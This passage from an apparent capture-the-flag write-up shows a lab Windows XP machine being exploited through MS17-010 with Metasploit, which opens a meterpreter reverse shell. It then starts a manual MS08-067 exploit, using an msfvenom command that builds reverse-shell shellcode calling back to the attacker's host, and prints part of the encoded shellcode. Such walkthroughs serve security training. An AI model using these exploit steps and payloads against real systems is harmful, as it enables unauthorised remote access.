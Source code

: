 ```bash
SMBPass                                                                             no        The password for the specified username
SMBUser                                                                             no        The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
 LHOST     192.168.232.139  yes       The listen address (an interface may be specified)
 LPORT     4444             yes       The listen port
 Exploit target:
 Id  Name
 --  ----
 0   Automatic
 msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.129.1.111
 RHOSTS => 10.129.1.111
 msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
 LHOST => 10.10.14.44
 msf6 exploit(windows/smb/ms17_010_psexec) > exploit

 meterpreter > shell
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>
```
### MS08-067 (Without Metasploit)

For exploiting the Samba manually, there is an exploit available on GitHub [__here__](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py){:target="_blank"}. It’s a python script that
requires Impacket (you can install it on Kali from [__here__](https://github.com/CoreSecurity/impacket/)){:target="_blank"} and have to implement some of my own code with 
the default shellcode. Let’s make the custom exploit for exploitation. I will use msfvenom to make the 
shellcode.

```bash
 root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.44 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows                
 Found 11 compatible encoders
 Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
 x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
 Attempting to encode payload with 1 iterations of generic/none
 generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
 Attempting to encode payload with 1 iterations of x86/call4_dword_xor
 x86/call4_dword_xor succeeded with size 348 (iteration=0)
 x86/call4_dword_xor chosen with final size 348
 Payload size: 348 bytes
 Final size of py file: 1953 bytes
 shellcode =  b""
 shellcode += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
 shellcode += b"\x5e\x81\x76\x0e\xa1\x97\xf8\xe2\x83\xee\xfc"
 shellcode += b"\xe2\xf4\x5d\x7f\x7a\xe2\xa1\x97\x98\x6b\x44"
 shellcode += b"\xa6\x38\x86\x2a\xc7\xc8\x69\xf3\x9b\x73\xb0"
 shellcode += b"\xb5\x1c\x8a\xca\xae\x20\xb2\xc4\x90\x68\x54"
 shellcode += b"\xde\xc0\xeb\xfa\xce\x81\x56\x37\xef\xa0\x50"
 shellcode += b"\x1a\x10\xf3\xc0\x73\xb0\xb1\x1c\xb2\xde\x2a"
 shellcode += b"\xdb\xe9\x9a\x42\xdf\xf9\x33\xf0\x1c\xa1\xc2"
 shellcode += b"\xa0\x44\x73\xab\xb9\x74\xc2\xab\x2a\xa3\x73"
 shellcode += b"\xe3\x77\xa6\x07\x4e\x60\x58\xf5\xe3\x66\xaf"
 shellcode += b"\x18\x97\x57\x94\x85\x1a\x9a\xea\xdc\x97\x45"
 shellcode += b"\xcf\x73\xba\x85\x96\x2b\x84\x2a\x9b\xb3\x69"
 shellcode += b"\xf9\x8b\xf9\x31\x2a\x93\x73\xe3\x71\x1e\xbc"
```